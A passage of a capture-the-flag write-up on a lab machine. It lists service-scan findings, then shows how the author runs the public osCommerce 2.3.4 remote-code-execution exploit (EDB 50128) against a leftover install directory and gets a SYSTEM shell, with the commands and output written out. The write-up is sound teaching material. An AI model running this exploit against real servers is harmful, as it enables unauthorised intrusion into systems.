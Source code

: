 So we can observe:

- Windows 7 Home SP1 / 7601 - wow that's quite old
- IIS on Port 80
- Apache 2.4.23 on Port 443 and 8080
- OSCommerce 2.3.4
- PHP 5.6.28
- OpenSSL 1.0.2h
- MSRPC on Port 135
- Netbios on Port 139
- SMB on Port 445 (stated as microsoft-ds)
- mySQL/MariaDB on Port 3306
- a few high ports with msrpc
- SMB scan could already retrieve some data as guest

All these outdated software's probably have some vulnerabilities that I can use.

## Initial Access: osCommerce 2.3.4 Exploit

Nmap already found a installation of osCommerce - an Online Shop application. The directory name already hints the version: `2.3.4`.
I quickly searched on [Exploit-DB.com](https://exploit-db.com) for osCommerce and found [this exploit (EDB-ID 50128)](https://www.exploit-db.com/exploits/50128) by Bryan Leong `<NobodyAtall>`.
The underlying issue is, if the `/install` directory wasn't removed after installation, it's possible to execute commands.

> Exploit: Exploiting the install.php finish process by injecting php payload into the db_database parameter & read the system command output from configure.php

Since I have `searchsploit` installed on my Kali VM, I probably already have that exploit on disk:

```bash
# find the path of the local exploit
searchsploit 50128 -p
  Exploit: osCommerce 2.3.4.1 - Remote Code Execution (2)
      URL: https://www.exploit-db.com/exploits/50128
     Path: /usr/share/exploitdb/exploits/php/webapps/50128.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable

# execute the exploit, using the URL of the osCommerce installation as a single parameter
python3 /usr/share/exploitdb/exploits/php/webapps/50128.py http://10.10.251.173:8080/oscommerce-2.3.4/catalog/
[*] Install directory still available, the host likely vulnerable to the exploit.
[*] Testing injecting system command to test vulnerability
User: nt authority\system

RCE_SHELL$ whoami
nt authority\system
```

Okay, great. I got a shell, and I'm even running as `NT Authority\SYSTEM`. I think that's a major misconfiguration to have the webserver run as `SYSTEM`, but well... It's just an easy CTF game.
